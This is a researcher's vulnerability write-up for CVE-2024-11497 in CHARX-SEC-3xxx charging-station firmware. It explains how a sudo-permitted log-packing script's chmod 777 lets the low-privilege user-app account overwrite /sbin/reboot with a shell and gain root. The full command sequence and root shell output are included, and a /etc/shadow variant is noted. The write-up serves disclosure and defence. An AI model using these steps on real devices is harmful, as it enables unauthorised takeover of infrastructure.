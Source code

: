 ### CVE-2024-11497 - Ancient Mistake Leads to Root Compromise and Second-Order Attack

Here’s a quick write-up on a vulnerability I recently discovered in the CHARX-SEC-3xxx firmware (version < 1.7.0). CHARX-SEC was one of the targets at Pwn2Own Automotive last year, and it'll appear again next week.

---

### Overview

The CHARX-SEC-3xxx devices allow users to deploy custom apps through `user-app`, a user account with limited access to some root-level commands via `sudo`. Here’s a look at the available commands:

```
ev3000:~$ sudo -l
User user-app may run the following commands on ev3000:
    (ALL) NOPASSWD: /usr/local/bin/charx_set_timezone, /usr/local/bin/charx_set_datetime,
        /usr/local/bin/charx_pack_logs, /etc/init.d/user-applications, /sbin/reboot, /usr/sbin/charx_system_update,
        /usr/sbin/charx_application_install, /usr/local/bin/charx_set_ip_address, /etc/init.d/charx-jupicore,
        /etc/init.d/charx-ocpp16-agent, /etc/init.d/charx-system-config-manager, /etc/init.d/charx-system-monitor,
        /etc/init.d/charx-controller-agent, /etc/init.d/charx-modbus-server, /etc/init.d/charx-modbus-agent,
        /etc/init.d/charx-cellular-network, /etc/init.d/charx-qca, /etc/init.d/charx-controller-agent,
        /usr/local/bin/charx_create_firewall_settings, /etc/init.d/firewall, /etc/init.d/charx-website,
        /etc/init.d/charx-update-agent, /sbin/reboot, /usr/local/bin/charx_rm_file, /sbin/ip
```

By exploiting a minor but critical flaw in one of these commands, an attacker could achieve root access, allowing full control over the device.

---

### Starting Point

At first, I went through the entire system, examining all SUID binaries in the hope of finding one to leverage for root access, but had no luck.

Next, I checked other services accessible by `user-app`. This user can perform some system configurations, but these require root privileges — meaning `user-app` can execute certain configurations with root access; sudoers is involved here. After checking sudoers, I found they were using the latest version, so even I have a one-day exploit wouldn’t be effective.

However, the extensive list of root-allowed commands for `user-app` caught my attention. After examining each, one command stood out: `/usr/local/bin/charx_pack_logs`.

---

### Vulnerability Details

In the script `/usr/local/bin/charx_pack_logs`, on line 56, the following command is executed:

```bash
...
CHMOD_LOGFILE="/bin/chmod 777"
...
$CHMOD_LOGFILE $filename_safe
...
```

This line sets file permissions to `777` (full read, write, and execute) on a specified file. Since my earliest days using Linux, I was taught to be cautious with `chmod 777`, using it only when absolutely necessary. What harm could this `chmod 777` permission cause?

---

### Exploitation

#### Go the hard way

Initially, I thought, "Let’s change permissions on an SUID binary for root access." However, setting `chmod 777` on these files clears their SUID bits, so no luck there. 

Next, I considered the sudoers configuration file (`/etc/sudoers`). I thought that changing its permissions might allow me to modify the configuration and run any command as `root`. But sudo is smart—it won’t run if `/etc/sudoers` has `777` permissions.

---

#### The Second-Order Attack

While taking a break, I had a realization: I could `chmod 777` any file on the `sudo` command list, modify it with a payload, and run it with root privileges. The vulnerability then becomes trivial to exploit! I decided to test this on `/sbin/reboot`, a binary I had already examined.

**Example: Changing Permissions on `/sbin/reboot`:**

1. Use the vulnerable `charx_pack_logs` script on `/sbin/reboot`:

    ```
    ev3000:~$ sudo /usr/local/bin/charx_pack_logs /sbin/reboot
    /usr/local/bin/charx_pack_logs: line 20: /var/log/mqtt-snapshot.json: Read-only file system
    /usr/local/bin/charx_pack_logs: line 23: /var/log/ps-snapshot: Read-only file system
    /usr/local/bin/charx_pack_logs: line 26: /var/log/df-snapshot: Read-only file system
    /usr/local/bin/charx_pack_logs: line 29: /var/log/data-listing: Read-only file system
    /usr/local/bin/charx_pack_logs: line 32: /var/log/data-file-space-usage-snapshot: Read-only file system
    /usr/local/bin/charx_pack_logs: line 35: /var/log/lsusb-snapshot: Read-only file system
    /usr/local/bin/charx_pack_logs: line 38: /var/log/scm-config-snapshot.ini: Read-only file system
    /usr/local/bin/charx_pack_logs: line 41: /var/log/devices-snapshot: Read-only file system
    /bin/tar: Removing leading `/' from member names
    /bin/tar: Removing leading `/' from hard link targets
    ```

2. The `/sbin/reboot` file now has `777` permissions, allowing anyone to read, write, and execute it.

3. The attacker can now overwrite `/sbin/reboot` to execute a shell instead:

    ```bash
    ev3000:~$ echo sh > /sbin/reboot
    ```

4. Running the modified `/sbin/reboot` file provides root access:

    ```bash
    ev3000:~$ id
    uid=2005(user-app) gid=2000(user-app) groups=2000(user-app)
    sh-4.4$ sudo reboot
    sh-4.4# id
    uid=0(root) gid=0(root) groups=0(root)
    sh-4.4#
    ```

#### Bonus

Another way to gain root permission is by using `chmod 777 /etc/shadow`, one of the most important files in a Linux system. Changing its permissions would allow me to modify the root password and gain direct access.

---

### Impact

This vulnerability allows an attacker to escalate privileges from the `user-app` user to root, granting them full control over the device.

---

### Conclusion

Sometimes, a break is all it takes to see things clearly.

---

### CVSS Score
CVSS 3.x Severity and Vector Strings:
Base Score: 8.8 
HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

